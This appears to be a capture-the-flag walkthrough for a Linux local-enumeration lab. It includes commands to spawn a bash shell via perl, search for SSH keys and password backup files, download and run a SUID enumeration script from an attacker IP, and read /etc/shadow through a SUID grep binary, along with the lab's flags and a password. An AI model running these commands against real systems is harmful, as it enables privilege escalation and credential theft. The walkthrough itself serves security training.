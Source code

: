 # Linux: Local Enumeration

## Task 2 tty

#### How would you execute /bin/bash with perl?

{% hint style="success" %}
`perl -e 'exec "/bin/bash";'`
{% endhint %}

## Task 3 ssh

#### Where can you usually find the id\_rsa file?

{% hint style="success" %}
`/home/user/.ssh/id_rsa`
{% endhint %}

#### Is there an id\_rsa file on the box?

```bash
ls /home/manager/.ssh
```

{% hint style="success" %}
`nay`
{% endhint %}

## Task 4 Basic enumeration

#### How would you print machine hardware name only?

{% hint style="success" %}
`uname -a`
{% endhint %}

#### Where can you find bash history?

{% hint style="success" %}
`~/.bash_history`
{% endhint %}

#### What's the flag?

```bash
sed -n 1p ~/.bash_history 
```

{% hint style="success" %}
`thm{clear_the_history}`
{% endhint %}

## Task 5 /etc

#### Can you read /etc/passwd on the box?

```bash
ls -l /etc/passwd
```

{% hint style="success" %}
`yay`
{% endhint %}

## Task 6 Find Command and interesting files

#### What's the password you found?

```bash
find / -type f -name '*.bak' 2>/dev/null
# /var/opt/passwords.bak
cat /var/opt/passwords.bak
```

{% hint style="success" %}
`THMSkidyPass`
{% endhint %}

#### Did you find a flag?

```bash
find / -type f -iname '*flag*' 2>/dev/null
# /etc/sysconf/flag.conf
cat /etc/sysconf/flag.conf
```

{% hint style="success" %}
`thm{conf_file}`
{% endhint %}

## Task 7 SUID

#### Which SUID binary has a way to escalate your privileges on the box?

```
wget http://10.17.20.154/suid3num.py
python3 suid3num.py
```

{% hint style="success" %}
`grep`
{% endhint %}

#### What's the payload you can use to read **/etc/shadow** with this SUID?

{% hint style="success" %}
`grep '' /etc/shadow`
{% endhint %}

